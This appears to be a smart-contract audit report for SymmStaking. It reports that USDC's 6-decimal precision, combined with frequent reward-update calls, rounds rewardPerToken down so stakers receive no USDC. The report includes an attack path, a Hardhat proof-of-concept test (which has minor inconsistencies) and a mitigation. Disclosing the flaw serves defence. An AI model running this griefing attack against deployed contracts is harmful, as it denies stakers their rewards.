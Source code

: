 Rhythmic Mercurial Pony

Medium

# Attacker will prevent distribution of USDC to stakers through frequent reward updates

### Summary

USDC's lower precision of 6 decimals and frequent reward updates will cause stakers to receive 0 of the allotted
`distributions should be done at the pace of 10k per week until fully distributed`

### Root Cause

In  SymmStaking.sol:194 Using same rewardPerToken for USDC used for SYMMis a mistake as USDC only has 6 decimals of precision compared to SYMM 18 decimals.

https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L194
https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L210

### Internal Pre-conditions

1.the state.duration is 1 week.This is the default duration.

### External Pre-conditions

None

### Attack Path

1.User1 (Attacker) deposits (stake) 1000e18 SYMM to SymmStaking via `deposit()`
1.A Common User (User2) deposits (stake) 1000e18 SYMM to SymmStaking via `deposit()`
2.Attacker call `notifyRewardAmount()` function
3.The User2 call `claimRewards` u will see that claimed its 0

### Impact

All stakers will receive 0 USDC rewards of the 10_000e6 USDC weekly rewards.

### PoC

```js
		it("POC TEST", async function () {
			// Scenario: Single depositor — user1 deposits 604,800 SYMM, waits 200s, claims 200 tokens.


			const initialBalance = ethers.toBigInt(1000000 * (10 ** 6))
			const depositAmountUSDC = ethers.toBigInt(1000000000)
			const adminDeposit = ethers.toBigInt("10000000000000000000000")
			
			await usdcToken.connect(admin).mint(user1.address, initialBalance)
			await usdtToken.connect(admin).mint(user1.address, initialBalance)

			await usdcToken.connect(admin).mint(user2.address, initialBalance)
			await usdtToken.connect(admin).mint(user2.address, initialBalance)

			const rewardAmount = adminDeposit

			await symmStaking.connect(admin).configureRewardToken(await stakingToken.getAddress(), true)
			await symmStaking.connect(admin).configureRewardToken(await usdcToken.getAddress(), true)

			await time.increase(200)
			
			await stakingToken.connect(user1).approve(await symmStaking.getAddress(), rewardAmount)
			await symmStaking.connect(user1).deposit(rewardAmount, await admin.getAddress());

			await stakingToken.connect(user2).approve(await symmStaking.getAddress(), ethers.toBigInt("200"))
			await symmStaking.connect(user2).deposit(ethers.toBigInt("200") , await user1.getAddress());

			await time.increase(200)
			
			await usdcToken.connect(user2).approve(await symmStaking.getAddress(), depositAmountUSDC)
			await symmStaking.connect(user2).notifyRewardAmount([await usdcToken.getAddress()], [depositAmountUSDC])

			await time.increase(200)

			
			const user1BalanceBefore = await usdtToken.balanceOf(user1.address)
			await symmStaking.connect(user1).claimRewards()
			const user1BalanceAfter = await usdtToken.balanceOf(user1.address)
			const claimed = user1BalanceAfter - user1BalanceBefore

			const user2BalanceBefore = await usdtToken.balanceOf(user2.address)
			await symmStaking.connect(user2).claimRewards()
			const user2BalanceAfter = await usdtToken.balanceOf(user2.address)
			const claimed2 = user2BalanceAfter - user2BalanceBefore
			
			console.log("rewardPerToken => ", await symmStaking.connect(user1).rewardPerToken(await usdcToken.getAddress()))
			console.log("user1BalanceBefore = ", user1BalanceBefore)
			console.log("user1BalanceAfter = ", user1BalanceAfter)
			console.log("claimed = ", claimed)
			console.log("rewardPerToken => ", await symmStaking.connect(user1).rewardPerToken(await usdcToken.getAddress()))
		
			console.log("rewardPerToken => ", await symmStaking.connect(user2).rewardPerToken(await usdcToken.getAddress()))
			console.log("user1BalanceBefore = ", user2BalanceBefore)
			console.log("user1BalanceAfter = ", user2BalanceAfter)
			console.log("claimed = ", claimed2)
			console.log("rewardPerToken => ", await symmStaking.connect(user2).rewardPerToken(await usdcToken.getAddress()))
		})	
```

### Mitigation

A possible mitigation is to convert the USDC rewards to an 18-decimal value
When claiming rewards, convert the earned USDC rewards back to 6-decimal precision. If it is 0, store the unclaimed partial values of USDC until they can be claimed whole.